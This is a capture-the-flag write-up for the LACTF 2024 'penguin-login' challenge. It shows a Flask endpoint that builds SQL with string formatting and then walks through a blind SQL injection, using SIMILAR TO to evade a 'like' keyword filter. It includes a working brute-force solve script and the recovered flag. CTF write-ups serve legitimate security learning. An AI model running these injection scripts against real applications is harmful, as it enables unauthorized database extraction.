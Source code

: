 ```yaml
---
title: penguin-login
date: 2024-02-19 08:05
tags: 
- web
- sqli
- author-hartmannsyg
categories: LACTF 2024
---
```


solved by {% person hartmannsyg %}

{% ccb lang:py gutter1:47-71 caption:app.py highlight:13 %}
@app.post("/submit")
def submit_form():
    try:
        username = request.form["username"]
        conn = get_database_connection()

        assert all(c in allowed_chars for c in username), "no character for u uwu"
        assert all(
            forbidden not in username.lower() for forbidden in forbidden_strs
        ), "no word for u uwu"

        with conn.cursor() as curr:
            curr.execute("SELECT * FROM penguins WHERE name = '%s'" % username)
            result = curr.fetchall()

        if len(result):
            return "We found a penguin!!!!!", 200
        return "No penguins sadg", 201

    except Exception as e:
        return f"Error: {str(e)}", 400

    # need to commit to avoid connection going bad in case of error
    finally:
        conn.commit()
{% endccb %}

Somehow, SQL injection works on this: `' or '1` returns us "We found a penguin!!!!!"
```sql
SELECT * FROM penguins WHERE name = '' or '1'
```

We have `like` as a forbidden word but we can get around that by using `SIMILAR TO` instead:

{% ccb gutter1:12,13 lang:py caption:app.py %}
allowed_chars = set(string.ascii_letters + string.digits + " 'flag{a_word}'")
forbidden_strs = ["like"]
{% endccb %}

So we first exfiltrate the length with `_` which represents one character. We keep sending increasingly long chains of underscores until one matches:

```py
import requests
for i in range(100):
    res = requests.post("https://penguin.chall.lac.tf/submit",{"username":"'or name SIMILAR TO '"+"_"*i})
    print(str(i)+") "+res.text)
```

{% ccb terminal:true %}
0) No penguins sadg
1) No penguins sadg
2) No penguins sadg
3) No penguins sadg
4) We found a penguin!!!!! (peng)
5) No penguins sadg
6) No penguins sadg
7) We found a penguin!!!!! (emperor)
8) No penguins sadg
9) No penguins sadg
10) No penguins sadg
...
45) We found a penguin!!!!!
{% endccb %}

So our flag is 45 chars long.

We then have our solve script:

{% ccb gutter1:1-15 lang:py caption:solve.py %}
import requests
import string
alphabet = string.ascii_letters + string.digits + '{}_'
known = ''
for i in range(45):
    for c in alphabet:
        data = {"username":"'or name SIMILAR TO '" + known.replace('{','_') + c + "_"*(44-i)}
        # print(data["username"])
        res = requests.post("https://penguin.chall.lac.tf/submit",data)
        # print(res.text)
        if '!!!' in res.text:
            known += c
            print(known + '!'*50)
            break
print(known)
{% endccb %}

`{` is a character used in regex, and it just so happens that the character after that is a number, so to prevent throwing a error we replace it with `_` when it is known (this is done in the known.replace() function in the solve script)

`lactf{90stgr35_3s_n0t_l7k3_th3_0th3r_dbs_0w0}`